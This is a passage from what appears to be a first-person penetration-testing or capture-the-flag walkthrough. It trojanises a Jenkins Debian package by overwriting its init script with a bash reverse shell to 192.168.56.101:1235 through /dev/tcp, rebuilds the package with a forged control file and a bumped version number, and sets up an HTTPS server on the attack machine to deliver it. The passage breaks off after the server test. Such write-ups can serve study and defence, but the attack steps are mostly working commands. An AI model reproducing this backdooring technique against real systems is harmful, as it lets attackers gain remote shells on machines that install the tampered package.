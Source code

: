 ```shell
$ wget https://pkg.jenkins.io/debian-stable/binary/jenkins_2.222.3_all.deb
```
When I extract the `deb` package:
```shell
$ mkdir jenkins_2.222.3_all && dpkg --extract \
> jenkins_2.222.3_all.deb jenkins_2.222.3_all && cd jenkins_2.222.3_all
```
And I identify the bash init script at `/etc/init.d/jenkins`:
```bash
#!/bin/bash
# /etc/init.d/jenkins
# debian-compatible jenkins startup script.
# Amelia A Lewis <alewis@ibco.com>
#
### BEGIN INIT INFO
...SNIPPED...
```
And I replace it with a reverse shell payload:
```shell
$ echo '#!/bin/bash
> bash -c \'bash -i >& /dev/tcp/192.168.56.101/1235 0>&1\'' > \
> etc/init.d/jenkins
```
And I use the `dpkg-deb` command to create a new `.deb` file:
```shell
$ dpkg-deb --root-owner-group --build jenkins_2.222.3_all.deb
dpkg-deb: error: failed to open package info file
'jenkins_2.222.3_all.deb/DEBIAN/control' for reading:
No such file or directory
```
Then I get an error. When I create the `DEBIAN` directory:
```shell
$ mkdir -p jenkins_2.222.3_all/DEBIAN
```
And I use `vim` to write the file `jenkins_2.222.3_all.deb/DEBIAN/control`:
```
Package: jenkins
Version: 2.222.4
Section: utils
Priority: optional
Architecture: all
Maintainer: test <test@test.com>
Description: This is a test
```
And I use again the `dpkg-deb` command that I used above, then I get the output:
```shell
dpkg-deb: building package 'jenkins' in 'jenkins_2.222.3_all.deb'.
```
And now, I need to start the `HTTPS` service on my attack machine. When I google `Python3 https directory listing`, then I find [http server Python docs](https://docs.python.org/3/library/http.server.html). When I write the example script called [httpsservice.py](./static/httpsservice.py), but with the `ssl` library I add the certificate to the `socket`, and I generate a certificate with the `openssl` command:
```shell
$ openssl req -new -x509 -keyout server.pem -out server.pem \
> -days 365 -nodes
```
And I run the script with `sudo` permission to be able to use port `443`:
```shell
$ sudo python3 httpsservice.py
```
And I test it with the `curl` command, and I use the `-k` switch to ignore the insecure certificate:
```shell
$ curl -k https://0.0.0.0
```
Then it works: